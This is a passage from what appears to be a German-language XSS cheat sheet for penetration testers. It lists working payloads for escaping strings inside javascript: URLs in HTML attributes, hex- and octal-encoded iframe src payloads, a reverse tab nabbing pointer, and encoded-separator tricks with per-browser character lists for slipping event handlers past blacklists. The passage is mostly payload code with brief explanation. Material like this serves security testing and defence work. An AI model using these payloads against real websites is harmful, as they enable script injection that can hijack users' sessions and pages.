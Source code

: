 _**In diesem Fall ist der HTML-Encoding- und der Unicode-Encoding-Trick aus dem vorherigen Abschnitt ebenfalls gültig, da Sie sich innerhalb eines Attributs befinden.**_
```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```
Außerdem gibt es einen weiteren **schönen Trick** für diese Fälle: **Selbst wenn Ihre Eingabe innerhalb von `javascript:...` URL-kodiert ist, wird sie vor der Ausführung URL-dekodiert.** Wenn Sie also aus der **Zeichenkette** mit einem **einzelnen Anführungszeichen** **entkommen** müssen und sehen, dass **es URL-kodiert ist**, denken Sie daran, dass **es keine Rolle spielt,** es wird zur **Ausführungszeit** als **einzelnes Anführungszeichen** **interpretiert.**
```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```
Beachten Sie, dass es **nicht funktioniert**, wenn Sie **beide** `URLencode + HTMLencode` in beliebiger Reihenfolge verwenden, um die **Payload** zu kodieren, aber Sie können sie **innerhalb der Payload mischen**.

**Verwendung von Hex- und Oktal-Kodierung mit `javascript:`**

Sie können **Hex** und **Oktal-Kodierung** innerhalb des `src`-Attributs von `iframe` (mindestens) verwenden, um **HTML-Tags zu deklarieren, um JS auszuführen**:
```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```
### Reverse Tab Nabbing
```javascript
<a target="_blank" rel="opener"
```
Wenn Sie eine beliebige URL in ein beliebiges **`<a href=`** Tag einfügen können, das die Attribute **`target="_blank"` und `rel="opener"`** enthält, überprüfen Sie die **folgende Seite, um dieses Verhalten auszunutzen**:

{% content-ref url="../reverse-tab-nabbing.md" %}
[reverse-tab-nabbing.md](../reverse-tab-nabbing.md)
{% endcontent-ref %}

### zum Umgehen von Ereignis-Handlern

Überprüfen Sie zunächst diese Seite ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) auf nützliche **"on" Ereignis-Handler**.\
Falls es eine schwarze Liste gibt, die Sie daran hindert, diese Ereignis-Handler zu erstellen, können Sie die folgenden Umgehungen versuchen:
```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
```